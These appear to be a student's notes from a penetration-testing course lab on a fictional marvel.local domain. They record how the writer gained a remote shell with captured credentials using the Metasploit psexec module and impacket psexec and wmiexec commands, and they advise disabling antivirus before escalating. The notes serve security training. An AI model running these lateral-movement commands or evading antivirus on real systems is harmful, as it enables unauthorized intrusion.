

**Gaining Shell**
 
We have a username and password 
 
lets get shell 
 
lhowlete 
Password1 
 
loud method 
 
msfconsole 
 
serach psexec 
 
exploit/windows/smb/psexec  
 
set RHOSTS &lt;ip&gt; 
set SMBDomain &lt;domain&gt; 
set smbpass &lt;password&gt; 
set smbuser &lt;user&gt; 
set lhost &lt;port (eth0)&gt; 
good to adjust payload 
 
 
didnt run &gt; run twice 
 
 
 
show targets 
 
try another target 
 
 
 
 
also fixed some errors &gt; ran 
 
detected by windows defender 
 
 
 
Thats ok 
 
 
TRY ALTERNATES 
 
psexec.py marvel.local/lhowlette:Password1@192.168.247.135 
 
Changes from course material 
 
impacket-psexec marvel.local/lhowlette:Password1@192.168.247.135 
 
ALSO detected! 
 
Try something else 
 
impacket-wmiexec marvel.local/lhowlette:Password1@192.168.247.135  
 
protip &gt; start with psexec or wmiexec... create a half shell look around try and disable AV then use metaspoit 
 
